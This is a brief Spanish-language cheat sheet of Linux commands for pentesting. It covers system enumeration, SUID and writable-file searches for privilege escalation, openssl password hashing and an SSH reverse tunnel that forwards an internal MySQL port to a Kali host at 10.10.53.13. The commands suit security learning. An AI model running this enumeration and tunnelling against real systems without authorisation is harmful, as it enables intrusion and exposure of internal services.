 
# Comandos Linux

En esta entrada describimos comandos en **Linux** utilizados en pentesting.

## Ver información del sistema

```bash
uname -a
```
```bash
lsb_release -a
```

## Buscar ficheros SUID

```bash
cd /
```

```bash
find \-perm -4000 2>/dev/null
```

## Buscar ficheros con permisos de escritura

```bash
cd /
```

```bash
find \-writable 2>/dev/null | grep "etc"
```

## Generar contraseña UNIX

```bash
openssl passwd
```

## SSH conexión reversa

Podemos crear conexión reversa a un puerto interno.

Los páremetros fNT es para que la conexión sea en segundo plano.

```bash
ssh -R 4343:127.0.0.1:3306 kali@10.10.53.13 -fNT
```

Prueba